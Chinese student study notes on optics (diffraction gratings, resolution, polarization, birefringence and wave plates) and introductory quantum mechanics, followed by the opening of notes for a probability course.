一个理想点光源的成的像就是点光源，但由于衍射现象的存在（衍射受限，diffraction limit），一个点光源的像是一个光斑（爱里斑，Airy disk）。当两个物点很靠近时，它们的象斑有可能相互重叠，导致分辨不清。

瑞利判据
对于两个等光强的非相干物点，若其中一点的象斑中心恰好落在另一点的象斑的边缘(第一暗纹处),则此两物点被认为是刚刚可以分辨。
此时两个爱里斑重叠部分的光强为爱里斑中心光强的 80%。

- 不能分辨（not resolved）：一个爱里斑的中心在另一个爱里斑内部
- 恰能分辨（just resolved）：一个爱里斑的中心在另一个爱里斑的第一暗环上，即在里一个爱里斑的边缘
- 可分辨（resolved）：两个爱里斑完全分开

分辨本领
我们将 \(\theta_{min}\) 定义为两个物点的最小分辨角，即在能够分辨两个物点的情况下，它们象斑中心之间的角度。 $$ \sin\theta_{min} \approx \theta_{min} = 1.22 \dfrac{\lambda}{D} $$
分辨本领(reolving power) \(R\) 定义为 \(R = \dfrac{1}{\theta_{min}}\)
光栅¶
光栅
光栅是由大量等宽等间距的平行狭缝(或反射面) 构成的光学元件
光栅常数：周期长度 \(d\)，即光栅上相邻两个狭缝之间的距离
- \(d = a + b\)，\(a\) 是狭缝的宽度，\(b\) 是狭缝之间的间隔
光栅实际上就是多个单缝衍射结果的叠加。
单缝衍射
\[ E_{\theta} = E_m \dfrac{\sin\alpha}{\alpha}, \quad \alpha = \dfrac{\pi a \sin\theta}{\lambda} \] \[ I = I_{\theta} = I_m \left( \dfrac{\sin\alpha}{\alpha} \right)^2 \]

我们同样可以考虑使用振幅矢量叠加法来分析光栅的衍射现象，如右图所示，我们把光栅有 \(N\) 个狭缝，相邻两个狭缝产生的光的相位差（振幅矢量夹角）为 \(\delta\)，于是
令 $$ \delta = \dfrac{2\pi}{\lambda} \cdot d \sin\theta = 2\beta$$ 那么就有 $$ \beta = \dfrac{\pi d \sin\theta}{\lambda} $$

从右图中可以知道 $ \angle OCB_N = N\delta = 2N\beta$，以及 $$ \overline{OC} \sin\beta \approx \dfrac{\overline{OB}_1}{2} = \dfrac{E_1}{2} $$ $$ \Longrightarrow \overline{OC} = \dfrac{E_1}{2\sin\beta} $$ 于是
按照矢量叠加的方法最终得到的光强为 $$ I_{\theta} = I_m \left( \dfrac{\sin\alpha}{\alpha} \right)^2 \left( \dfrac{\sin N\beta}{\sin \beta} \right)^2 $$
Tip
\[ \alpha = \dfrac{\pi a \sin\theta}{\lambda} \] \[ \beta = \dfrac{\pi d \sin\theta}{\lambda} \] 其中 \(a\) 为每一个狭缝的宽度，\(d\) 为相邻狭缝之间的距离（一个狭缝中心到另一个狭缝中心）
$$ I_{\theta} = I_m \left( \dfrac{\sin\alpha}{\alpha} \right)^2 \left( \dfrac{\sin N\beta}{\sin \beta} \right)^2 $$ 中的 \(\left( \dfrac{\sin\alpha}{\alpha} \right)^2\) 来自于单个狭缝的衍射，\(\left( \dfrac{\sin N\beta}{\sin \beta} \right)^2\) 来自于狭缝之间的干涉
-
当 \(d \sin\theta = m\lambda\) 时，\(\delta = 2m\pi\) 每一个振幅矢量的方向相同，相互叠加后的振幅最大，为亮纹，称为主极大（principal maximum）其中 \(m = 0, \pm 1, \pm 2 \cdots\)。
- 由于 $ |m\lambda| = d \sin\theta < d$，所以 \(|m_{max}| < \dfrac{d}{\lambda}\)
- \(m\) 为主极大级数，\(m=0\) 称中央明纹。光栅极大的位置由相邻狭缝间的干涉极大决定！
由于此时 \(\beta = m\pi\)，所以 \(\sin N\beta = \sin\beta = 0\)，于是 $$ \lim\limits_{\sin\beta \to 0} \dfrac{\sin N\beta}{\sin \beta} = N \quad \Longrightarrow I_{\theta} = N^2 I_m $$
-
当 \(\sin N\beta = 0\)，但 \(sin \beta \neq 0\) 时，\(I_{\theta} = 0\)
- 此时 $\beta = (m + \dfrac{n}{N}) \pi,\quad \sin\theta = \dfrac{\lambda}{d} (m+\dfrac{n}{N}) $
其中 \(m = 0, \pm 1, \pm 2 \cdots\)，\(n = 1, 2, 3, \cdots, N-1\)，这时候光强为 0，有 \(N-1\) 条暗纹（极小）
光栅衍射的谱线特点
- 主级大明纹的位置与缝数 \(N\) 无关，它们对称地分布在中央明纹的两侧，中央明纹光强最大
- 在相邻的两个主级大之间，有 \(N−1\) 个极小（暗纹）和 \(N−2\) 个光强很小的次极大。当 \(N\) 很大时，实际上在相邻的主极大之间形成一片暗区，即能获得又细又亮暗区很宽的光栅衍射条纹。
我们可以观察主极大之间极小和次级大的数目来推断光栅的狭缝数目：两个较大的波峰之间有 \(x\) 个小波峰时，则光栅的狭缝数目为 \(x+2\)

主极大的半角宽度
 $$ d\sin\theta = m\lambda $$
$$ d\sin\theta = m\lambda $$
-
当 \(\theta\) 很小时，\(\theta \approx \sin\theta = \dfrac{m\lambda}{d}\)，于是 $$ \theta_m + \Delta \theta \approx (m+\dfrac{1}{N})\dfrac{\lambda}{d} $$ 于是半角宽度为 \(\Delta \theta = \dfrac{\lambda}{Nd}\)
-
当 \(\theta\) 不那么小时，\(\theta \neq \sin\theta\)，对 \(\sin\theta = m\lambda\) 两边求导（或者认为是泰拉展开），得到 $$ d\cos\theta \Delta \theta = \dfrac{1}{N} \lambda $$ 于是 $$ \Delta \theta = \dfrac{\lambda}{Nd \cos\theta} $$
因此可以知道，光栅的狭缝数目越多。主极大的半角宽度越小，分辨本领越高。
光栅的缺级¶
光栅的缺级是指在光栅的衍射光谱中，不同多个狭缝之间干涉产生的主极大的位置恰好与单缝自己衍射得到的极小（暗纹）位置重合，而导致光栅的衍射光谱中的亮纹消失不见的现象
Example

如上图所示，当 \(d\sin\theta = m\lambda\) 时，光栅的衍射光谱中的亮纹消失不见，这就是光栅的缺级。
$$ a\sin\theta = k\lambda ,\quad d\sin\theta = m\lambda $$ 当 $\dfrac{k}{m} = \dfrac{a}{d} $ 时，光栅衍射的明纹将会消失，出现缺级现象
光栅的色散和分辨本领¶
光栅的光谱
复色光照射光栅时，谱线按波长从小到大向外侧依次分开排列，形成光栅光谱。

光栅的色散本领和分辨本领
-
色散本领：定义为光栅中变化的角度 \(\Delta \theta\) 与变化的波长 \(\Delta \lambda\) 的比值
$$ D = \dfrac{\Delta \theta}{\Delta \lambda} $$ 根据之前得到的 $ d\cos\theta \Delta \theta = \dfrac{1}{N} \lambda $，可以知道 $$ D = \dfrac{\Delta \theta}{\Delta \lambda} = \dfrac{m}{d\cos\theta} $$ 因此光栅的色散本领仅与光栅常数 \(d\) 和级数 \(m\) 有关，而与狭缝数目 \(N\) 无关

-
分辨本领：把波长相近的两条谱线分辨的清楚的本领 \(R = \dfrac{\lambda}{\Delta \lambda}\)
- 我们可以注意到当波长为 \(\lambda + \Delta \lambda\) 的主极大恰好在波长为 \(\lambda\) 的光的极小位置上时它们恰好可以被分辨
波长为 \(\lambda + \Delta \lambda\) 的第 \(k\) 级主极大的角位置为 $$ d\sin\theta = k(\lambda + \Delta \lambda) $$ 波长为 \(\lambda\) 的第 \(kN+1\) 级极小的角位置为 $$ Nd\sin\theta = (kN + 1)\lambda $$ 于是 $$ R = \dfrac{\lambda}{\Delta \lambda} = kN $$
分辨本领的另一种求法
根据瑞利判据，当两个不同波长的光恰好可以被分辨时，一个光的主极大正好在另一波长光的主极大旁边的极小位置，即它们的角度差恰好为半角宽度 $$ \Delta \theta = \dfrac{\lambda}{Nd \cos\theta} $$ 此时可以恰好被分辨出来的波长差为 $$ \Delta \lambda = \dfrac{\Delta \theta}{D} = \dfrac{\lambda}{Nd \cos\theta} \cdot \dfrac{d\cos\theta}{m} = \dfrac{\lambda}{Nm} $$ 因此分辨本领为 $$ R = \dfrac{\lambda}{\Delta \lambda} = mN $$
- 光栅的分辨本领与光栅的狭缝数目 \(N\) 和相应的级数 \(m\) 有关，而与光栅常数 \(d\) 无关
X 光衍射¶
当光照射到晶体上时，会被原子散射，从而产生光程差

发生干涉加强时（Bragg 公式） $$ 2d\sin\theta = m\lambda $$ 其中 \(d\) 是晶面间距（晶格常数），\(\theta\) 是掠射角
偏振（Polarization）¶

线偏振光指的是光波中的电矢量在一个平面内振动的光波，从光的传播方向来看，电场矢量只在一条线内运动

一束非偏振光（自然光）通过偏振片后，只有与偏振片的透光轴（transmission axis，TA）平行的电矢量才能通过，这时候光就变成了线偏振光
- 当自然光通过偏振片后，光的强度会变为原来的一半 \(I_1 = \dfrac{1}{2} I_0\)
假如线偏振光再通过一个偏振片，两个偏振片的透光轴夹角为 \(\theta\)，那么透过第二个偏振片的光强为 \(I_2 = I_1 \cos^2\theta\)，这就是马吕斯定律（Malus's Law）
偏振光的分解¶

线偏振光的电场始终在一条直线上，可以被分解到两个正交的方向上 $$ E_x = E_{x0} \sin(kz - \omega t + \varphi_x) $$ $$ E_y = E_{y0} \sin(kz - \omega t + \varphi_y) $$
- 对于线偏振光而言，相位差 $ \varphi_x - \varphi_y = 2k\pi $，并且 $ \dfrac{E_{y0}}{E_{x0}} = \tan\theta $
- 对于圆偏振光而言，相位差 $ \varphi_x - \varphi_y = k\pi + \dfrac{\pi}{2} $，并且 $ E_{y0} = E_{x0} $
圆偏振光


圆偏振光的电场振幅在一个平面内旋转，且振幅大小不变
-
右旋圆偏振光 (RCP)：沿光传播方向看，电场矢量顺时针旋转
$ E_x = E_{0} \sin(kz - \omega t + \dfrac{\pi}{2}) \quad E_y = E_{0} \sin(kz - \omega t) $
-
左旋圆偏振光 (LCP)：沿光传播方向看，电场矢量逆时针旋转
$ E_x = E_{0} \sin(kz - \omega t - \dfrac{\pi}{2}) \quad E_y = E_{0} \sin(kz - \omega t) $
Tip
关于旋转方向的判断，我们可以简记为相位靠前的朝着相位靠后的方向旋转。
因为相位靠后的电场矢量会不断追上来，到达当前我们作为观测基准的平面上。
五类偏振光
共有五类偏振光
- 无偏振光（自然光）：光波的电场在任意方向上振动，且振动方向随机变化，没有固定的振动方向。自然光可以看作是由两个振动方向垂直、相互间没有固定相位差、等振幅的线偏振光（非相干光）组合而成的。
- 线偏振光：见上面的描述
- 部分偏振光：部分偏振光相当于偏振光和无偏振光的叠加。部分偏振光可分解为两束振动方向相互垂直的、不等幅的、不相干的线偏振光。
偏振度
我们记 \(I_{max}\) 为光在所有方向中的最大光强，\(I_{min}\) 为光在所有方向中的最小光强，那么偏振度 \(P\) 定义为 $$ P = \dfrac{I_{max} - I_{min}}{I_{max} + I_{min}} $$
- 对于线偏振光而言，\(I_{min} = 0\) ，\(P = 1\)
- 对于无偏振光而言，\(I_{max} = I_{min}\)，\(P = 0\)
- 圆偏振光：可认为是在两个相互垂直的方向上的电场振幅相等，且相位差为 \(\pm \dfrac{\pi}{2}\) 的两束线偏振光的叠加。
-
椭圆偏振光： $$ E_x = E_{x0} \sin(kz - \omega t + \delta) $$ $$ E_y = E_{y0} \sin(kz - \omega t) $$
其中 \(E_{x0} \neq E_{y0}\) 或 \(\delta \neq \pm \dfrac{\pi}{2}\)
布儒斯特角¶
布儒斯特定律

布儒斯特定律指的是当自然光从介质 \(n_1\) 射入介质 \(n_2\) 时，存在一个特定的入射角 \(\theta_p\)，使得折射角和反射角之和为 \(90^\circ\)，此时反射光就为线偏振光。
根据 \(\theta_p + \theta_r = 90^\circ\) 以及 \(n_1 \sin\theta_p = n_2 \sin\theta_r\) 可得 $$ n_1 \sin\theta_p = n_2 \sin(90^\circ - \theta_p) = n_2 \cos\theta_p $$ $$ \therefore \tan\theta_p = \dfrac{n_2}{n_1} $$
双折射（Birefringence）¶
双折射现象

双折射现象是指一束入射光经某些晶体折射后可分成两束光线的现象，这两束光线的传播方向不同，光线的振动方向也不同。
其中一束光线遵循通常的折射定律（Snell's Law），称为寻常光（ordinary ray）或 o 光，另一束光线则不遵循折射定律，称为非寻常光（extra-ordinary ray）或 e 光。
- o 光从各个角度射入晶体的折射率都相同
- 由于晶体的各向异性，e 光从不同角度射入晶体时的折射率会有所不同，这就是我们认为 e 光不遵循一般的折射定律的原因
考虑到折射率对于光速的影响，我们可以知道：
- o 光沿晶体的各个方向传播速度相同
- e 光沿晶体的不同方向传播速度不同，速度在 \(v_o\) 和 \(v_e\) 之间变化（\(v_e\) 可能大于 \(v_o\)，也可能小于 \(v_o\)）
- 我们把 \(v_o\) 和 \(v_e\) 对应的折射率 \(n_o\) 和 \(n_e\) 称为主折射率
主平面与光轴¶

- 当光在晶体内沿某个特殊方向传播时，将不会发生双折射，该方向称为晶体的光轴。
-
光轴是一特殊的方向，凡平行于此方向的直线均为光轴。
- 在光轴方向上 o 光和 e 光的折射率相同
- 单轴晶体：只有一个光轴的晶体
- 双轴晶体：有两个光轴的晶体
主平面
主平面是指晶体中光的传播方向与晶体光轴构成的平面。

- o 光的电场振动方向与主平面垂直
- e 光的电场振动方向在主平面内


-
对于负晶体而言，\(v_e > v_o\)，\(n_e < n_o\)
常见的负晶体有 \(CaCO_3\)（方解石）等
-
对于正晶体而言，\(v_e < v_o\)，\(n_e > n_o\)
常见的正晶体有 \(SiO_2\)（石英）等
光轴与快慢轴的关系
- 负晶体：e 光在光轴方向传播最慢，光轴为慢轴；垂直于光轴方向的传播速度最快，为快轴
- 正晶体：e 光在光轴方向传播最快，光轴为快轴；垂直于光轴方向的传播速度最慢，为慢轴
波片¶


上图中虚线表示晶体的光轴，当光垂直于光轴传入时，我们可以按照光在晶体内的振动方向把这束光分解为 o 光和 e 光。它们在晶体内部的传播速度不同，因此会产生相位差。 $$ \Delta \varphi = \dfrac{2\pi}{\lambda} (n_e - n_o)d $$
不同厚度的波片
根据波片厚度的不同，o 光和 e 光之间的相位差也会不同。
-
四分之一波片（quarter-wave plate, QWP，\(\dfrac{1}{4} \lambda\) 片）： $$ (n_e - n_o)d = \pm \dfrac{\lambda}{4}, \quad \Delta \varphi = \pm \dfrac{\pi}{2} $$
-
半波片（half-wave plate, HWP，\(\dfrac{1}{2} \lambda\) 片）： $$ (n_e - n_o)d = \pm \dfrac{\lambda}{2}, \quad \Delta \varphi = \pm \pi $$
-
全波片（full-wave plate, FWP，\(\lambda\) 片）： $$ (n_e - n_o)d = \pm \lambda, \quad \Delta \varphi = \pm 2\pi $$

由于 o 光和 e 光的振动方向相互垂直，因此我们可以把光的振幅分解到快轴和慢轴两个方向上，如右图所示。
值得特别一提的是，当一束线偏振光以与光轴成 \(45^\circ\) 的角度经过一个四分之一波片后，o 光和 e 光之间的相位差为 \(\pm \dfrac{\pi}{2}\)，并且光在快轴和慢轴上的分量相等，因此这束光就变成了圆偏振光。回顾之前的内容，我们知道这就是圆偏振光的特点，因此四分之一波片可以将线偏振光转化为圆偏振光。

从另一个方向来理解，就是因为沿快轴方向的光走的更快，因此要达到和沿慢轴的光相同的相位，就需要少走一些时间，这样才能抵消掉它们之间的光程差，于是快轴上的相位就要减去 \(\dfrac{\pi}{2}\)。
线偏振光经过四分之一波片


在上图中，一束自然光经过线偏振片后得到了一束和快、慢轴成 \(45^\circ\) 的线偏振光。这束光经过四分之一波片后，快轴方向上的光由于折射率小于慢轴方向上的光，因此光程要比慢轴方向上的光少走了 \(\dfrac{\lambda}{4}\)，因此这束光就变成了圆偏振光。
两道简单的例题

第一问中，线偏振光与波片的慢轴方向平行，不会被分解，因此经过波片后不会发生任何改变。它经过下一个偏振片时所有的光都会被挡住，因此光强为 0。
第二问中，线偏振光与波片的快、慢轴成 \(45^\circ\)，因此会被分解为两束垂直的光 $$ E_f = E_s = \dfrac{E_0}{\sqrt{2}} $$ 快轴和慢轴两个分量上的光经过下一个偏振片后，可以通过马吕斯定律求出两个分量偏振后的光强，把它们相加就是最终的光强。 $$ I_2 = \dfrac{E_f^2}{2} \cos^2 45^\circ + \dfrac{E_s^2}{2} \cos^2 45^\circ = \dfrac{E_0^2}{2} = \dfrac{1}{2} I_0 $$
散射产生的偏振

当光子撞击到某些粒子表面时，会产生散射现象。如果散射后的方向和振动的方向平行，并且由于光是横波，那么光波在这个方向上的振动就会消失，变成线偏振波。
量子力学¶
约 3499 个字 1 张图片 预计阅读时间 14 分钟
量子力学的部分就花了两节课光速飞过了，也不知道哪些是重点，就稍微记一些公式和概念好了
光的本质（The Nature of Light）¶
光既是波也是粒子，但不是传统的波，也不是传统的粒子
- 波动性：干涉、衍射
- 粒子性：黑体辐射、光电效应、康普顿散射
黑体辐射
黑体：在任何条件下，对任何波长的外来辐射完全吸收而无任何反射的物体，即吸收比为1的物体。理想黑体可以吸收所有照射到它表面的电磁辐射，并将这些辐射转化为热辐射，其光谱特征仅与该黑体的温度有关，与黑体的材质无关。
韦恩公式：黑体辐射的波长最大值 \(\lambda_{max}\) 与温度 \(T\) 之间的关系为 \(\lambda_{max} T = b\)，其中 \(b = 2.898 \times 10^{-3} m \cdot K\)，即 \(\lambda_{max} = \dfrac{b}{T}\)
普朗克辐射定律： $$ R(\lambda, T) = \dfrac{2\pi hc^2}{\lambda^5} \dfrac{1}{e^{\frac{hc}{\lambda kT}} - 1} = \dfrac{2\pi hc^2}{\lambda^5} \dfrac{1}{e^{\frac{h\nu}{kT}} - 1} $$ 其中，\(R(\lambda, T)\) 为单位面积黑体辐射的辐射强度，$h=6.63 \times 10^{-34} J \cdot s $ 为普朗克常数，\(c\) 为光速，\(\lambda\) 为波长，\(T\) 为温度，\(k\) 为玻尔兹曼常数，\(\nu\) 为光频率。
除了常见的普朗克常数外，还有约化普朗克常数 \(\hbar = \dfrac{h}{2\pi}\)。
光子的性质¶
光有波粒二象性
-
波动性：\(\overrightarrow{E} = \overrightarrow{E}_m \cos(\overrightarrow{k} \cdot \overrightarrow{r} - \omega t)\)，或者用复数表示：\(\overrightarrow{E} = \overrightarrow{E}_m e^{i(\overrightarrow{k} \cdot \overrightarrow{r} - \omega t)}\)
- 其中 \(k=\dfrac{2\pi}{\lambda}\) 为波数（波矢 wave vector），\(\omega = 2\pi f = 2\pi \nu\) 为角频率
-
粒子性：光子——光的量子化
- 光子静质量为 \(M_{photon} = 0\)
- 能量为 \(E = h\nu = \hbar \omega\)
- 动量为 \(p = \dfrac{E}{c} = \dfrac{h}{\lambda} = \hbar k\)
一些常见符号的辨析
- \(\omega\) 为角频率，单位为弧度每秒 \(\omega = 2\pi f = \dfrac{2\pi}{T}\)
- \(\nu\) 为频率，单位为赫兹 \(\nu = \dfrac{1}{T}\)，有时也用 \(f\) 表示
- \(\lambda\) 为波长，\(\lambda = \dfrac{c}{\nu} = \dfrac{2\pi}{k}\)
- \(k\) 为波数，\(k = \dfrac{2\pi}{\lambda}\)
光电效应¶

当高于某个频率的光照射到金属上时，金属的电子会吸收能量后逸出金属表面形成，这种现象称为光电效应。这个特定的频率被称为截止频率，记为 \(\nu_0\)，不同的金属有不同的截止频率（阈值频率）。
-
截止频率：截止频率的存在是因为电子需要克服金属的束缚做功才能逸出金属表面，我们把逸出需要的做功大小称为逸出功 \(W_0\)，或工作函数 \(\phi\)，即 \(W_0 = h\nu_0\)
-
光子能量和电子动能：入射光子的能量一部分用于电子逸出，一部分用于电子的动能，即 $$ h\nu = \dfrac{1}{2}mv^2 + W_0 $$ 这个式子中的 \(\dfrac{1}{2}mv^2\) 指的是受激电子的最大动能，因为可能还有其它因素影响电子的动能，比如电子与金属表面的碰撞等
-
通常而言我们仅考虑一个电子受到一个光子的激发，而不考虑多个光子对于同一个电子的作用，因此当我们增加入射光的强度（光子数目）而不改变光的频率时，只会增加电子的数量（增大电流）而不会影响电子的最大动能
在上面的图中，最终达到稳定时两个金属板之间会有一个电势差 \(V\)，并且此时电子的最大动能恰好不能克服电势差，即 $$ K = \dfrac{1}{2}mv^2 = eV $$ 因此我们可以求出达到平衡时的电势差为 $$ V = \dfrac{h}{e}\nu - \dfrac{\phi}{e} $$
康普顿散射
康普顿散射是指入射光子与自由电子碰撞后，光子的能量和动量发生变化，从而使得光子的波长发生变化。这个现象是量子力学的一个重要实验现象，也是光子的粒子性的一个重要证据。
考虑右边的一个例子，光子与一个静止的电子发生碰撞后，光子的波长由 \(\nu\) 变为 \(\nu'\)，而电子的动能由 \(0\) 变为 \(K\)，根据能量守恒和动量守恒，我们可以得到 $$ \begin{cases} h\nu + m_0c^2 = h\nu' + mc^2 \Longrightarrow \dfrac{hc}{\lambda_0} = \dfrac{hc}{\lambda'} + m_0c^2 \left[ \dfrac{1}{\sqrt{1-(v/c)^2}} - 1 \right] \\\ \dfrac{h}{\lambda_0} = \dfrac{h}{\lambda'} \cos\phi + \dfrac{m_0 v}{\sqrt{1-(v/c)^2}} \cos\theta \\\ \dfrac{h}{\lambda_0} \sin\phi = \dfrac{m_0 v}{\sqrt{1-(v/c)^2}} \sin\theta \end{cases} $$
可以求得光子的波长变化为 $$ \Delta \lambda = \lambda' - \lambda_0 = \dfrac{h}{m_0c} (1-\cos\phi) $$
物质波（Matter Wave）¶
物质波的提出
1924 年，从未系统学习过物理学的德布罗意提出了物质波的概念，他认为不仅是光具有波动性，任何物质都具有波动性。
在宏观世界中，物质的动量为 \(p = mv\)，动能为 \(E_k = \dfrac{1}{2}mv^2\)。而在量子世界中，物质的动量和动能可以用波长和频率来表示，我们把它也用于宏观世界，即
- 动量波长关系：\(p = \dfrac{h}{\lambda} = \hbar k\)
- 能量频率关系：\(E = h\nu = \hbar \omega\)
- 物质波振动的波长为 $\lambda = \dfrac{h}{p} = \dfrac{h}{mv} = \dfrac{h}{\sqrt{2mE}} $
波函数¶
物质波满足这样的一个波函数： $$ \varPsi(x,t) = \psi_0 e^{i(kx-\omega t)} = \psi_0 e^{\frac{i}{\hbar} (px-Et)} $$ 其中 \(\psi_0\) 是波的振幅。
波函数的物理解释：几率波
The product \(\varPsi_0 \varPsi_0^* dx\) gives the probability that the particle in question will be found between positions \(x\) and \(x+dx\).
\(\varPsi_0 \varPsi_0^* dx\) 表示粒子在位置 \(x\) 和 \(x+dx\) 之间被找到的概率，其中 \(\varPsi_0^*\) 是波函数的负数共轭
-
几率密度为 \(P(x) = \varPsi_0 \varPsi_0^*\)
-
粒子在位置 \(x_1\) 和 \(x_2\) 之间找到的概率为 $$ \int_{x_1}^{x_2} P(x) dx = \int_{x_1}^{x_2} \varPsi_0 \varPsi_0^* dx $$
-
显然这个几率密度也要满足归一化的性质 $$ \int_{-\infty}^{\infty} P(x) dx = \int_{-\infty}^{\infty} \varPsi_0 \varPsi_0^* dx = 1 $$
对于一个自由粒子来说，有 $$ P(x) = [ \psi_0 e^{i(kx-\omega t)} ] [ \psi_0^* e^{-i(kx-\omega t)} ] = |\psi_0|^2 = const $$
由于自由粒子所受的合外力为 0，因此它的动量变化为 \(\Delta p_x = 0\)。从 $ \varPsi(x,t) = \psi_0 e^{\frac{i}{\hbar} (px-Et)} $ 可以知道这时候几率密度可是一个很小的常数。它的物理意义是在一维空间中任意时刻、任意位置，粒子的分布几率都相同。
各种算符的定义¶
期望算符¶
根据测不准原理，我们无法准确地找到粒子的位置、动量、能量和速度，但我们可以讨论它们的预期值（expectation values），或者说平均值（average values）。
一个粒子的期望位置可以被定义为 $$ \bar{x} = \dfrac{\displaystyle\int_{-\infty}^{\infty} xP(x) dx}{\displaystyle\int_{-\infty}^{\infty} P(x) dx} = \int_{-\infty}^{\infty} xP(x) dx $$ 其中 \(\displaystyle\int_{-\infty}^{\infty} P(x) dx = 1\)
这时候我们把 \(P = |\Psi|^2 = \Psi^* \Psi\) 代入得到
其中 \(\displaystyle\int_{-\infty}^{\infty} \Psi^* \Psi dx = 1\)
上面的 $\left< || \right> $ 算符表示被 \(\Psi^*\) 和 \(\Psi\) 夹在中间从负无穷到正无穷积分
类似地，我们也可以对其他的标量值求期望值，例如势能 \(U(x)\) $$ \overline{U} = \int_{-\infty}^{\infty} \Psi^* U(x) \Psi dx = \left< \psi |U(x)| \psi \right> $$
动量算符¶
我们已经知道 \(\varPsi(x,t) = \psi_0 e^{i(kx-\omega t)},\quad p = \hbar k,\quad E=\hbar \omega\)
对波函数关于 \(x\) 求偏导，得到 $$ \dfrac{\partial \varPsi}{\partial x} = ik \psi_0 e^{i(kx-\omega t)} $$ 再对方程两边同时乘上 \(-i\hbar\) 就得到 $$ -i\hbar \dfrac{\partial \varPsi}{\partial x} = (-i\hbar) ik \psi_0 e^{i(kx-\omega t)} = \hbar k \psi_0 e^{i(kx-\omega t)} $$ 注意到动量 \(p = \hbar k\)，于是 $$ -i\hbar \dfrac{\partial }{\partial x} \varPsi = p \cdot \psi_0 e^{i(kx-\omega t)} = p \Psi $$ 那么我们就得到了动量算符为 $$ p \leftrightarrow -i\hbar \dfrac{\partial }{\partial x} $$
使用动量算符求动量期望值
能量算符¶
能量算符的推导和动量算符十分相似 $$ \dfrac{\partial \varPsi}{\partial t} = -i\omega \psi_0 e^{i(kx-\omega t)} $$ 两边乘上 \(i\hbar\) 并且代入 \(E=\hbar \omega\)，就得到 $$ i\hbar \dfrac{\partial \varPsi}{\partial t} = (i\hbar) (-i\omega) \psi_0 e^{i(kx-\omega t)} = \hbar \omega \psi_0 e^{i(kx-\omega t)} = E\varPsi $$ 于是我们就知道能量算符（Energy operator）为 $$ E \leftrightarrow i\hbar \dfrac{\partial}{\partial t} $$
使用能量算符求能量期望值
薛定谔方程¶
薛定谔方程
薛定谔方程告诉我们如何把非自由粒子和波函数结合起来
一个粒子的总能量包括动能和势能两部分 $$ E = \dfrac{1}{2} mv^2 + U = \dfrac{p^2}{2m} + U $$ 把波函数应用到这上面就得到
于是我们最终就得到了一维含时薛定谔方程： $$ i\hbar \dfrac{\partial \varPsi(x,t)}{\partial t} = \left[ -\dfrac{\hbar^2}{2m} \dfrac{d^2}{d x^2} + U(x,t) \right] \varPsi(x,t) $$ 可以简写为 $$ i\hbar \dfrac{\partial \varPsi(x,t)}{\partial t} = \hat{H} \varPsi(x,t) $$ 其中 \(\hat{H}\) 为哈密顿算符（Hamilton operator）
哈密顿算符
- 一维情况下，$ \hat{H} = -\dfrac{\hbar^2}{2m} \dfrac{d^2}{d x^2} + U(x,t) $
-
三维情况下，$ \hat{H} = -\dfrac{\hbar^2}{2m} \nabla^2 + U(x,y,z,t) $
其中 \(\nabla^2 = \dfrac{\partial^2}{\partial x^2} + \dfrac{\partial^2}{\partial y^2} + \dfrac{\partial^2}{\partial z^2}\) 被称为拉普拉斯算符
定态薛定谔方程¶
当势能函数与时间无关时 \(U(x)\)，波函数可以写成如下形式 $$ \varPsi(x,t) = \psi(x) e^{-i\omega t} = \psi e^{-i\omega t} $$ 从而可以把时间和空间分离开，带入到薛定谔方程中得到
最后我们再把 \(E = \hbar \omega\) 代入，就得到了一维定态薛定谔方程 $$ E \psi(x) = -\dfrac{\hbar^2}{2m} \dfrac{d^2 \psi(x)}{d x^2} + U(x) \psi(x) $$
这里的 \(E\) 和 \(U(x)\) 分别是粒子的总能量和势能，于是可以化简为 $$ \dfrac{d^2 \psi(x)}{d x^2} + \dfrac{2m}{\hbar^2} (E - U) \psi(x) = 0 $$ 又因为左边实际上就是哈密顿算符 \(\hat{H}\) 乘以波函数，于是可以写成 $$ \hat{H} \psi(x) = E \psi(x) $$
哈密顿算符的本征方程
上面的这个式子实际上和我们在线性代数中学到的矩阵（线性映射）的本征方程 \(AX = \lambda X\) 是一样的，因此我们称 $$ \hat{H} \psi(x)_n = E_n \psi(x)_n $$ 为哈密顿算符的本征方程 - \(\psi(x)_n\) 为哈密顿算符的本征函数 - \(E_n\) 为哈密顿算符的本征值
量子力学的一些其他概念
方明虎老师在 23 年的课上讲到这里课程的内容就结束了，但是量子力学还有一些概念没提到或是只是提了一下，这里就简单记录一下
-
势垒隧道（barrier tunneling）
粒子运动遇到一个高于粒子能量的势垒时，按照经典力学，只有粒子能量 \(E\) 大于势垒 \(U\) 的时候才能越过势垒；但在量子力学中，能量 \(E\) 小于 \(U\) 时，粒子也有一定概率运动到势垒另一侧，或按一定概率被势垒反射回来。
势垒隧道（势垒贯穿）是个形象的比喻，就是说不需要很高的能量越过势垒，而是在能量较低的时候也可能射过去，就像在势垒下面凿了个隧道。
-
测不准原理（uncertainty principle）
测不准原理是量子力学的一个基本原理，它表明我们无法同时准确地测量一个粒子的位置和动量，或者说同时准确地测量一个粒子能量和时间。量子力学中的粒子是通过波函数来描述的，波函数给出的是粒子位置和动量的概率分布，而不是确定的数值。当我们试图精确测量一个粒子的位置时，就会使得它的动量变得不确定，反之亦然。 $$ \Delta x \Delta p \geq \dfrac{\hbar}{2} $$
$$ \Delta E \Delta t \geq \dfrac{\hbar}{2} $$ 上面这两个式子中 \(\Delta x\) 和 \(\Delta p\) 分别是粒子位置和动量的不确定度，\(\Delta E\) 和 \(\Delta t\) 分别是粒子能量和时间的不确定度。
第一个式子称为海森伯不确定关系，表示微观粒子的位置和动量不能同时具有确定的值，给出了同时测定一个微观粒子位置和动量的精度的极限，无论测量仪器精度如何，测量结果都不可能超过这一极限，因此也称为测不准关系。
Ended: 普通物理学Ⅱ
概率论 ↵
约 80 个字 预计阅读时间不到 1 分钟
任课教师：苏中根
成绩组成
- 平时成绩（点名、作业） 20%
- 期中成绩（随堂考试） 20%
- 期末成绩 60%
主要内容：运用数学工具刻画随机现象规律
目录¶
第一章 事件及其概率¶
约 3431 个字 预计阅读时间 14 分钟
随机现象与统计规律性¶
- 必然事件：必然会发生的事件
- 不可能事件：必然不会发生的事件
- 随机事件：在一定条件下，不能准确预测其结果的事件
在相同条件下重复做 \(N\) 次试验，各次试验互不影响，考察事件 \(A\) 发生的次数（频数） \(n\)，称 \(F_N(A)=\frac{n}{N}\) 为 \(A\) 在 \(N\) 次试验中发生的频率。 频率所稳定到的那个常数可以表示事件 \(A\) 的概率，记为 \(P(A)\)。
频率的性质
从频率的定义可以看出频率有以下性质：
- 非负性：\(0\leqslant F_N(A)\leqslant 1\)
- 规范性：对必然事件 \(\Omega\)，\(F_N(\Omega)=\frac{N}{N}=1\)
